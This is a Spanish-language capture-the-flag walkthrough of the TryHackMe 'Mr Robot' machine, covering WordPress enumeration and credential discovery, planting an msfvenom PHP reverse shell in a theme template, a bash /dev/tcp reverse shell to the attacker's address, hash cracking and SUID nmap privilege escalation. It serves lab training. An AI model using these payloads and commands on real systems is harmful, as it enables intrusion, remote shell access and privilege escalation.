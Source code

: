 # Ejercicio Práctico Maquina Mr Robot CTF – Hacking WordPress + Escalada de Privilegios

Maquinas que vamos a utilizar **Kali Linux y mrrobot**  [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)

```bash
ping -c 1 10.10.192.154
```

![image.png](./imagenes/image.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.10.192.154
```

![image.png](./imagenes/image%201.png)

- Miramos el puerto 80 con nuestro navegador web
    
    ![image.png](./imagenes/image%202.png)
    

- Miramos lo que corre por el puerto 443 por donde también hay un servidor web.
    
    ![image.png](./imagenes/image%203.png)
    
    Corre la misma web
    

- Hacemos fuzzing con **gobuster.**
    
    ```bash
    gobuster dir -u http://10.10.192.154/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    ```
    
    ![image.png](./imagenes/image%204.png)
    
    Vemos que es un WordPress.
    
- Vamos a probar a entrar en **wp-login**.
    
    `http://10.10.192.154/wp-login`
    
    ![image.png](./imagenes/image%205.png)
    
    Imaginemos que sospechamos o adivínanos el **usuario “Elliot”.**
    
    <aside>
    💡
    
    En WordPress en versiones un poco antiguas podemos comprobar si existe ese usuario por el tipo de error que nos genera al introducirlo con una contraseña errónea. 
    
    Si no fuera un usuario existente el error seria el siguiente: “**ERROR: Invalid username. Lost your password?**” → “**ERROR: Usuario no válido. ¿Olvidaste tu contraseña?”**
    
    ![image.png](./imagenes/image%206.png)
    
    Básicamente seria este mensaje en el que se entiende que el usuario existe.
    
    **“ERROR: The password you entered for the username Elliot is incorrect. Lost your password?” → “ERROR: La contraseña que introdujiste para el usuario Elliot es incorrecta. ¿Perdiste tu contraseña?”**
    
    ![image.png](./imagenes/9abe630f-4862-460c-b182-3f0b3fc07dfe.png)
    
    </aside>
    
- Ya que tenemos un nombre de usuario hacemos un ataque de fuerza bruta con **WpScan** ya que **estamos en un WordPress.**
    
    ```bash
    wpscan --url [http://10.10.192.154/wp-login.php](./imagenes/http://10.10.192.154/wp-login.php) --passwords /usr/share/wordlists/rockyou.txt --usernames Elliot
    ```
    
    ![image.png](./imagenes/image%207.png)
    
    En este caso **el ataque de fuerza bruta no funciona**. Debemos investigar por los directorios.
    
    En esta maquina dentro del directorio `/license` que hemos encontrado con gobuster encontramos una línea al final del archivo que nos muestra.
    
    ![image.png](./imagenes/image%208.png)
    
    ![image.png](./imagenes/image%209.png)
    
    `ZWxsaW90OkVSMjgtMDY1Mgo=`
    
    - Es importante **probar** si esta **codificado en base64** de esta manera**:**
        
        ```bash
        echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
        ```
        
        ![image.png](./imagenes/image%2010.png)
        
        Donde estaría el **usuario y la contraseña**: “**elliot:ER28-0652**”
        
- Nos volvemos a **wp-login** y introducimos las credenciales.
    
    ![image.png](./imagenes/image%2011.png)
    

---

- Vamos a ganar acceso a la maquina victima
    - En el menú Izquierdo acedemos a **Appearance  → Editor**
        
        ![image.png](./imagenes/image%2012.png)
        
        ![image.png](./imagenes/image%2013.png)
        
    - En una terminal vamos a crear un Payload **malicioso en php con msfvenom**.
        
        ```bash
        msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > wp.php
        ```
        
        ![image.png](./imagenes/image%2014.png)
        
    - Lo visualizamos y copiamos todo su contenido al portapapeles.
        
        ```bash
        cat pwned.php 
        ```
        
        ![image.png](./imagenes/image%2015.png)
        
    
    - Editamos la platilla por ejemplo la “**404 Template**”. Eliminamos s contenido y pegamos el del archivo malicioso que hemos creado.
        
        ![image.png](./imagenes/image%2016.png)
        
    - En un terminal nos ponemos a la escucha con netcat.
        
        ```bash
        nc -nlvp 443
        ```
        
        ![image.png](./imagenes/image%2017.png)
        
    - Vamos al navegador web y escribimos la siguiente URL `http://10.10.118.131/wp-content/hdkfdskfd`
        
        `/wp-content` - Es la ruta donde se encuentran las plantillas.
        
        `/hdkfdskfd` - Es inventado por que lo que queremos es que nos de un error 404 y nos cargue la plantilla con el código malicioso.
        
        ![image.png](./imagenes/image%2018.png)
        
        ![image.png](./imagenes/image%2019.png)
        
        Ya tenemos la conexión.
        
    - Vamos a **estabilizarla la conexión** y hacer el **tratamiento de la TTY**.
        - Ponemos el puerto 4444 a la escucha
            
            ![image.png](./imagenes/image%2020.png)
            
        - Vamos a la web [https://www.revshells.com/](./imagenes/https://www.revshells.com/)
            
            ![image.png](./imagenes/image%2021.png)
            
            `bash -c "sh -i >& /dev/tcp/10.21.166.149/4444 0>&1"`
            
            Lo pegamos en el escucha del puerto 443
            
            ![image.png](./imagenes/image%2022.png)
            
            Y ya tendríamos una conexión estable en la escucha del puerto 4444.
            
            ![image.png](./imagenes/image%2023.png)
            
        - Hacemos el tratamiento de la TTY
            
            En este caso un tratamiento estándar de la TTY no funciona así que vamos a poner lo siguiente:
            
            `python -c "import pty;pty.spawn('/bin/bash')”`
            
            ![image.png](./imagenes/image%2024.png)
            
    - Nos movemos por los directorios y nos encontramos un archivo llamado **password.raw-md5** en la carpeta **/home/robot.** Miramos en su interior.
        
        `cat password.raw-md5`
        
        ![image.png](./imagenes/image%2025.png)
        
        Vemos que hay una **contraseña hasheada**.
        
    - Utilizaríamos John the Ripper o vamos a la web [https://crackstation.net/](./imagenes/https://crackstation.net/) y introducimos  la contraseña hasheada.
        
        ![image.png](./imagenes/image%2026.png)
        
    
    `abcdefghijklmnopqrstuvwxyz`
    
    - Vamos a cambiarnos de usuario a **usuario rotbot.**
        
        `su robot`
        
        ![image.png](./imagenes/image%2027.png)
        
    
    - Hacemos una escalada de privilegios
        
        `sudo -l`
        
        ![image.png](./imagenes/image%2028.png)
        
        Vemos que no funciona
        
    - Buscamos **binarios SUID.**
        
        `find / -perm -4000 2>/dev/null`
        
        ![image.png](./imagenes/image%2029.png)
        
    
    - Utilizamos la web de [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) para ver si podemos utilizar alguno y como hacerlo. Por ejemplo  **/usr/local/bin/nmap**
        
        ![image.png](./imagenes/image%2030.png)
        
    - Como TIP En caso de no funcionar echaremos mano a las búsquedas en internet
        
        `nmap privilege escalation suid`
        
        ![image.png](./imagenes/image%2031.png)
        
        ![image.png](./imagenes/image%2032.png)
        
        **Lo probamos:**
        
        `nmap --interactive`
        
        `!sh`
        
        `whoami`
        
        ![image.png](./imagenes/image%2033.png)